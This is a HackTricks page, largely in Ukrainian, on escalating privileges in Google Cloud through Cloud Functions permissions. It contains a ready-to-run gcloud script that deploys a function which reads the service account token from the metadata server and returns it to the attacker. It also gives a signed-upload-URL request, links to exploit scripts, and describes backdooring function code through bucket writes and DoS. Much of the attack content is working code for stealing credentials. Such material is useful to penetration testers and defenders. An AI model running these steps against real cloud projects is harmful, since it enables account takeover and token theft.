 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Більше інформації про Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **створити нову Cloud Function з довільним (шкідливим) кодом і призначити їй обліковий запис служби**. Потім, витягнути токен облікового запису служби з метаданих, щоб підвищити привілеї до нього.\
Можливо, знадобляться деякі привілеї для активації функції.

Скрипти експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) і [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), а попередньо зібраний .zip файл можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **модифікувати код функції і навіть змінювати обліковий запис служби, що прикріплений** з метою ексфільтрації токена.

{% hint style="danger" %}
Для розгортання cloud functions вам також знадобляться дозволи actAs над обліковим записом служби за замовчуванням для обчислень або над обліковим записом служби, що використовується для створення образу.
{% endhint %}

Деякі додаткові привілеї, такі як дозвіл `.call` для версії 1 cloudfunctions або роль `role/run.invoker` для активації функції можуть бути необхідні.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Якщо ви отримали помилку `Permission 'run.services.setIamPolicy' denied on resource...`, це означає, що ви використовуєте параметр `--allow-unauthenticated` і у вас недостатньо прав для цього.
{% endhint %}

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

З цією дозволом ви можете отримати **підписане URL для завантаження файлу в бакет функції (але код функції не буде змінено, вам все ще потрібно його оновити)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Не зовсім впевнений, наскільки корисним є лише цей дозвіл з точки зору атакуючого, але добре знати.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Надайте собі будь-які з попередніх **`.update`** або **`.create`** привілеїв для ескалації.

### `cloudfunctions.functions.update`

Маючи лише **`cloudfunctions`** дозволи, без **`iam.serviceAccounts.actAs`** ви **не зможете оновити функцію, ТОМУ ЦЕ НЕ Є ДІЙСНИМ ПРИВІЛЕЄМ.**

### Доступ на читання та запис до бакету

Якщо у вас є доступ на читання та запис до бакету, ви можете моніторити зміни в коді, і коли **відбувається оновлення в бакеті, ви можете оновити новий код своїм кодом**, з яким нова версія Cloud Function буде запущена з поданим бекдором.

Ви можете дізнатися більше про атаку в:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Однак ви не можете використовувати це для попереднього компрометації сторонніх Cloud Functions, тому що якщо ви створите бакет у своєму обліковому записі та надасте йому публічні дозволи, щоб зовнішній проект міг записувати в нього, ви отримаєте наступну помилку:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Однак це може бути використано для DoS-атак.
{% endhint %}

### Доступ на читання та запис до Artifact Registry

Коли створюється Cloud Function, новий docker-образ завантажується до Artifact Registry проекту. Я намагався змінити образ на новий, і навіть видалити поточний образ (та образ `cache`), і нічого не змінилося, cloud function продовжує працювати. Тому, можливо, **можливо зловживати атакою Race Condition** як з бакетом, щоб змінити docker-контейнер, який буде запущено, але **просто зміна збереженого образу не можлива для компрометації Cloud Function**.

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
